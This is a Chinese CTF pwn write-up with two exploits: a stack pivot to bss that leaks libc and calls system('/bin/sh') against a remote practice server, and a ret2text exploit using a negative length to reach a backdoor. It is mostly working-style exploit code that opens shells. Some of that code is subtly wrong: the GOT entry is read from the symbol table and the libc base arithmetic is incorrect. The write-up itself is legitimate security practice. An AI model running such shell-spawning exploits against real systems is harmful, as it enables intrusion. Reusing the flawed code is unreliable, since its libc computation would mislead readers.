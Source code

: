 其中s在bss段。

在read buf的位置正好可以覆盖返回地址，覆盖为s的地址，然后在s的地方写入构造好的payload。

s处：

>   p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)

s：``0804A300`

先说下buf处payload的构造：`p32(0x18*'a') + p32(s_addr-4)+ p32(leave_ret)`

ebp指向save_rbp的位置，也就是填入p32(s_addr_4)的位置。然后将返回地址写为leave_ret 的地址。

首先，执行leave_ret(也就是mov rsp,rbp;pop rbp)，会将rsp和rbp通同时指向save_rbp的位置，然后pop rbp，将rbp指向bss段的s_addr-4的位置；再之后rsp再次进行leave_ret，执行完后这时rsp指向bss段s_addr-4的位置，rbp指向s_addr的位置。（pop rbp会将rbp+4）



```python
from pwn import *
context(log_level='debug')
#io = process("./spwn")
io = remote("node3.buuoj.cn",29713)
elf = ELF("./spwn")
libc = ELF("./libc-2.23.so")
write_plt = elf.sym['write']
write_got = elf.sym['write']
main = elf.sym['main']
leave_ret = 0x08048408
s_addr = 0x0804A300
io.recvuntil("name?")
payload = p32(write_plt) + p32(main) + p32(1)+p32(write_got)+ p32(4)
io.sendline(payload)
io.recvuntil("say?")
payload1 = 0x18*'a'+p32(s_addr-4) + p32(leave_ret)
io.sendline(payload1)
write_addr = u32(io.recv(4))
base = write_addr - write_got
sys_addr = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
payload = p32(sys_addr) + p32(main) + p32(bin_sh)
io.sendline(payload)
io.recvuntil("say?")
io.sendline(payload1)
io.interactive()
```



## 0x1F.bjdctf_2020_babystack2（未交flag）

ret2text

```python
from pwn import *
io = process("./bjdctf_2020_babystack2")
context(log_level='debug')
backdoor = 0x00400726

io.recv()
io.sendline("-1")

io.recv()
payload = 'a'*0x18 + p64(backdoor)

io.send(payload)


io.interactive()
```